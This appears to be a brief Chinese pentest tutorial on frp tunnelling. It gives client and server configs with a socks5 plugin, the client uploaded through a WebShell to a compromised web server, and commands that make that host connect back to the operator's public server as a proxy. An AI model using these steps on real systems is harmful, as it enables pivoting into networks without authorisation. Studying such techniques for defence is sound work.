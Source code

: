 很简单，frpc是客户端，frps是服务端
![img](assets/1693911387451-7860905a-c524-428e-a98c-3854cac397c2.png)

配置frpc.ini:

```plain
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000

[frp]
type = tcp
remote_port = 6000
plugin = socks5    //这一句必须要加，不然代理连不上
```

客户端通过WebShell上传，frps上传到自己的公网服务器上，配置frps.ini:

```plain
# frps.ini
[common]
bind_port = 7000
```

接下来要在自己的公网服务器上开6000和7000这两个端口，并执行命令进行监听：

./frps -c ./frps.ini

再在上线的那台机器上执行命令：

/var/www/html/frp/frpc -c ./frpc.ini
